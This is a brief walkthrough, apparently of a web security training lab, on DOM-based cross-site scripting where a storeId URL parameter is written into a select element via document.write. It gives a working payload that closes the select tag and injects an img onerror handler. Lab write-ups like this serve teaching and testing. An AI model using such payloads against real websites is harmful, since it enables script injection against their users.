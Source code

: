 # Lab: DOM XSS in document.write sink using source location.search inside a select element

Inspect a product page and notice that the javascript accepts a `storeId` parameter from the `location.search` source, which is used to update the stock checker options list. Try adding a storeId param to the path to validate this: `/product?productId=1&storeId=asdf`

Repeat this with an XSS payload to complete the lab: `/product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>`